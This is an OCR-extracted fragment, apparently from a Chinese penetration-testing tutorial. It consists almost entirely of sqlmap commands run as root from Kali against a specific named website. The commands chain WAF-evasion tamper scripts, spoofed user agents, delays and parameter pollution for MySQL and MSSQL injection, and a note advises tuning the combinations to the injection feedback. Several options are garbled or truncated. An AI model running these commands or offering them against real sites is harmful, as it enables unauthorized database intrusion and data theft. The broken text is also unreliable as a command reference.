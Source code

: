 
```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent --hpp --tamper=space2mysqldash.p,versionedmorekeywords.py



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  -delay=3.5  ----user-agent=" Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/38.0.696.12 Safari/534.24” --tamper=apostrophemask.py,equaltolike.py



```

```

备注：这些组合策略可以根据注入的反馈信息，及时调整组合策略



```

```

***4\***|***4\*****2 MSSQL：**



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  -delay=3.5  ----user-agent=" Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/38.0.696.12 Safari/534.24” --tamper=randomcase.py,charencode.py



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --hpp --tamper=space2comment.py,randomcase.py
root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --time-sec=120  --tamper=space2mssqlblank.py,securesphere.py



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4"  --delay=3.5 --tamper=unionalltounion.py,base64encode.p



```

```
